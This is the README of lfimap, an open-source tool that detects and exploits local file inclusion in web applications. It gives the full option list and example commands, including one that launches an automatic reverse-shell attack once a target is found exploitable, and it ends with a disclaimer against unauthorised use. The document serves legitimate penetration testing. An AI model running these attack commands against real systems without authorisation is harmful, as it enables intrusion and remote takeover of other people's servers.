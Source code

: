 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote code execution
- expect:// for remote code execution
- input:// for remote code execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Reflected XSS testing
- Absolute and relative path truncation for file inclusion
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option for automated reverse shell attack upon RCE detection

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

### -h, --help
```

usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] [--useragent <agent>] 
                 [--referer <referer>] [--param <name>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r] [-c] [--file] [--xss] 
                 [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] [-wT <path>] [-wX <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]                       Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]                   Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>                    Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>                   Do HTTP POST value test. Ex: "param=PWN"
  -H <header>                    Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>                     Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>            Specify HTTP user agent
  --referer <referer>            Specify HTTP referer
  --param <name>                 Specify different test parameter value
  --no-stop                      Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter                   Attack using filter:// wrapper
  -i, --input                    Attack using input:// wrapper
  -d, --data                     Attack using data:// wrapper
  -e, --expect                   Attack using expect:// wrapper
  -t, --trunc                    Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi                      Attack using remote file inclusion
  -c, --cmd                      Attack using command injection
  --file                         Attack using file:// wrapper
  --xss                          Test for reflected XSS
  --info                         Test for basic information disclosures
  -a, --all                      Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit                  Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>                Specify local ip address for reverse connection
  --lport <lport>                Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>                     Specify wordlist for truncation test
  -wX <path>                     Specify wordlist for xss test
  -wC <path>                     Specify wordlist for command injection test

OTHER:
  -v, --verbose                  Print more detailed output when performing attacks
  -h, --help                     Print this help message                   

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py http://IP/vuln.php?param=PWN -C "PHPSESSID=XXXXXXXX" -a`  

![all_attacks](https://user-images.githubusercontent.com/57464251/169725893-d1c898a2-86ef-497a-936d-dbbe5bc154a4.png)


#### 2) Reverse shell command execution attack with '-x'.
`python3 lfimap.py http://IP/vuln.php?param=PWN -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![rev_shell](https://user-images.githubusercontent.com/57464251/169725946-7565eb46-c896-40c6-8bfc-8e24c840419d.png)

#### 3) Post argument testing with '-D'. 
`python3 lfimap.py http://IP/index.php -D "param=PWN" -a`

![postreq_test](https://user-images.githubusercontent.com/57464251/169726000-89d4e66a-8ddc-4598-941a-710dc8f4db51.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
